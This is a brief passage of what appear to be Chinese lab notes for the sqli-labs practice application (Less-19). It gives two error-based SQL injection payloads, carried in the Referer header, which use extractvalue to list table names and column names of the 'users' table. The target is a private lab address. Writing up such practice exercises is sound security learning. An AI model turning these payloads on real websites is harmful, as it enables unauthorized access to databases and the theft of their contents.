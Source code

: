 #### 爆表

```
Referer: http://192.168.231.129:9001/Less-19/' and extractvalue(1,concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 1,1))), '2')#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606234238850.png" alt="image-20230606234238850" style="zoom:50%;" />

#### 爆字段

```
Referer: http://192.168.231.129:9001/Less-19/' and extractvalue(1,concat(0x7e, (select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1))), '2')#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606234322880.png" alt="image-20230606234322880" style="zoom:50%;" />
